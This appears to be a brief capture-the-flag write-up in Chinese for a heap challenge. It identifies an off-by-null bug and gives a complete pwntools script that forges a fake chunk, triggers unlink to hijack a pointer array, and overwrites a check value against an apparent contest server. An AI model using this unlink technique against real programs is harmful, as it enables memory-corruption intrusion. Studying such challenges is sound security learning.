 add函数溢出0字节

```c
ptr[SHIDWORD(nbytes)][(signed int)nbytes] = 0;// off by null
```

直接unlink控制ptr数组，改为顶层chunk，修改内容为6

```python
from pwn import *
context.terminal=['tmux','splitw','-h']
context.log_level='debug'
p=process("./pwn_me_3")
p=remote("139.129.76.65","50006")
def add(si,cn):
    p.recv()
    p.sendline("1")
    p.recv()
    p.sendline(str(si))
    p.recv()
    p.send(cn)

def delete(idx):
    p.recv()
    p.sendline("2")
    p.recv()
    p.sendline(str(idx))

def show(idx):
    p.recv()
    p.sendline("3")
    p.recv()
    p.sendline(str(idx))

def edit(idx,cn):
    p.recv()
    p.sendline("4")
    p.recv()
    p.sendline(str(idx))
    p.recv()
    p.send(cn)

def dbg(code=""):
    gdb.attach(p,code)

add(0x78,'0')
add(0x78,'1')
ptr=0x6020E8
add(0xf8,'2')
add(0x10,'3')
# dbg("b*0x400BFD")
delete(1)
add(0x78,p64(0)+p64(0x71)+p64(ptr-0x18)+p64(ptr-0x10)+p64(0)*10+p64(0x70))
delete(2)
edit(1,'\x00'*0x10+'\x10')
edit(0,p64(0x66666666))
p.recv()
p.sendline("5")
p.interactive()
```

